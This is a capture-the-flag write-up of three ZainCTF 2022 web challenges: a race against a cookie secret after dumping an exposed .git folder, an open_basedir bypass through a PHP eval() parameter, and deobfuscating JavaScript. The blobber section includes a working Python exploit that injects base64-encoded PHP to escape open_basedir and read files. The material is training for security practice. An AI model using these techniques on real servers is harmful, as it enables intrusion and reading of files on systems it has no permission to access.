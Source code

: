 # ZainCTF 2022 - Web 
## 1- Sonic go Brr 

#### about : 
- Type: Web 
- Level: easy 
- Website: http://instance-web.cybertalentslabs.com/index.php
- points: 50
</br>

So the website disclosed a .git folder , with this [tool](https://github.com/arthaud/git-dumper) i got the backend files , in the source code i found that the check was if the secret (bas64 string) is equal to the value of parameter Q , and that needs to go fast enough to be submitted 
</br>

i wrote this code then 
```python
import requests
import base64 as bs
import urllib.parse as url

def get() : 
    headers = {
        'Host': 'wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-GPC': '1',
    }

    response = requests.get('http://wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com/index.php', headers=headers, verify=False)
    return  response.cookies["PHPSESSID"], response.cookies["secret"]

def post(session , secret) : 
    cookies = {
        'PHPSESSID': session,
        'secret': secret,
    }

    headers = {
        'Host': 'wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-GPC': '1',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '12',
    }

    data  ="Q=" + bs.b64decode(url.unquote(secret)).decode('utf-8')
    

    response = requests.post('http://wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com/index.php', headers=headers, cookies=cookies, data=data, verify=False)
    print(response.text)
if __name__ == "__main__" : 
    sess , cookie = get()
    post(sess  ,cookie)
```

## 2- blobber 

#### about : 
- Type: Web 
- Level: meduim 
- Website: http://52.59.229.252:1234/index.php
- points: 100

the website shows the source code : 

```php
<html>
<!--
<img src="uploads/bg.png"/>
-->
<?php

if (!isset($_GET['e']))
{
highlight_file(__FILE__);
}

eval(stripslashes($_GET['e']));

if (isset($_GET['file'])){
 $dir= new DirectoryIterator($_GET['file']);
 foreach ($dir as $found) echo filemtime($found)." ";
 exit;

}

?>
</html>
```

now easy eval , easy rce right , nope let's try the payload 
```php
ini_set('display_errors', 1);
chdir('../');
```

it gives : 

> <b>Warning</b>:  chdir(): open_basedir restriction in effect. File(../) is not within the allowed path(s): (/var/www/html) in <b>/var/www/html/index.php(12) : eval()'d code(3) : eval()'d code</b> on line <b>3</b><br />

now thats a lockdown , ok it says something base_dir prevents us from getting the parent files , i tried many thing , but if we look in disabled_functions we wil find that we can't upload nor execute system commands , pretty bad.

disabled functions : 
>system, pcntl_signal_dispatch,  posix_uname,  chgrp,  posix_setsid, pcntl_wifcontinued, readlink, proc_open, pcntl_exec, pcntl_wstopsig, imap_open, tempnam, passthru,  chown, pcntl_wifexited, show_source,  popen, pcntl_async_signals, exec, posix_mkfifo, pcntl_wexitstatus, touch,  posix_mkfifo, copy, pcntl_sigprocmask, file, pcntl_sigwaitinfo, fopen, pcntl_wifsignaled, define_syslog_variables, tmpfile, pcntl_exec, pcntl_waitpid, imagecolormatch, popen,  pg_lo_import, readfile, ftp_ssl_connect,  dbmopen, apache_setenv, link, pcntl_fork, pcntl_signal, parse_ini_file,  proc_terminate, curl_multi_exec, pcntl_setpriority, rename, file_put_contents, pcntl_getpriority, pcntl_signal_get_handler, curl_exec, pcntl_strerror,  proc_close,  proc_nice, pcntl_sigtimedwait,  posix_getpwuid, pcntl_get_last_error,  symlink,  pclose,  dbase_open,  posix_kill, pcntl_alarm, ftp_connect,  chmod, shell_exec, pcntl_wait,  posix_setpgid, pcntl_wtermsig, pcntl_wifstopped

i searched and found this [github](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/README.md) repo , it was pretty handy , i tried and it worked : 

```php
$file_list = array();
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}\n";
}
```
> anaconda-post.log
> bin
> boot
> dev
> etc
> home
> lib
> lib64
> media
> mnt
> opt
> proc
> root
> run
> sbin
> srv
> sys
> t0t4lly_n0t_th3_r3al_fl4gG
> tmp
> usr
> var

we know it's in the t0t4lly_n0t_th3_r3al_fl4gG , we ned to get the file content : 

```php
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
```

and we got the flag : **flag{n1c3_w0rk_ch41n1ng_wrappers_w1th_b4s3d1r}**

for the complete exploit : 

```python
import requests
import base64 as bs
#t0t4lly_n0t_th3_r3al_fl4gG

headers = {
    'Host': '52.59.229.252:1234',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Sec-GPC': '1',
    'Content-Length':'0',
    'Cache-Control': 'max-age=0',
    'X-Forwarded-For': '127.0.0.1',
}
code = """
ini_set('display_errors', 1);
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
"""

command  = f"""
$code = base64_decode("{(bs.b64encode(code.encode("utf-8"))).decode("utf-8")}");
eval($code);
"""
params = (
    ('e', command),
)

response = requests.get('http://52.59.229.252:1234/index.php', headers=headers, params=params, verify=False)
print(response.text)
```


## 3- Obfjustu 

#### about : 
- Type: Web 
- Level: easy 
- Website: http://52.59.254.46:1245/
- points: 50


when we first open the website , It has a graphical CLI, we can see the available commads using /help

<center><img src="../images/Obfjustu.png"></img></center>

in the source code , i found the javascript responsible for the fonctions , an obfuscated part was revealuing itself : 

```js 
var _cs = ["\x6a\x53", "\x31\x30\x6e", "\x66\x75", "\x5f\x77", "\x30\x6d\x33", "\x43\x6c\x69", "\x48\x5f\x73", "\x7b\x30\x62", "\x61\x67", "\x33", "\x66\x6c", "\x31\x74", "\x65\x6e\x74", "\x73\x63", "\x77\x45\x4c", "\x4c\x63", "\x30\x6d", "\x61\x74", "\x7d", "\x67\x74\x68", "\x67\x74", "\x63\x61\x6c", "\x6c\x6f", "\x68", "\x6c\x65\x6e", "\x6d\x70", "\x65", "\x61\x72", '\x67\x65\x6f', "\x65\x43\x6f"];
var _xxg0 = _cs[10] + _cs[8] + _cs[7] + _cs[2] + _cs[13] + _cs[17] + _cs[1] + _cs[3] + _cs[11] + _cs[6] + _cs[4] + _cs[0] + _cs[18];

function _xxf0(_xxp1, _xxp0) {
    if (_xxp1[_cs[24] + _cs[19]] !== _xxp0[_cs[24] + _cs[20] + _cs[23]]) {
        return false;
    }
    return _xxp1[_cs[22] + _cs[21] + _cs[29] + _cs[25] + _cs[27] + _cs[26]](_xxp0) === 0;
}
if (_xxf0(_xxg0, word[2])) {
    log(_cs[5] + _cs[12], _cs[14] + _cs[15] + _cs[16] + _cs[9]);
}
```

put it in the console (we are not analyzinf before getting the general idea) and we got the flag  :) : 

<center><img src="../images/flag_obfjustu.png"></img></center>
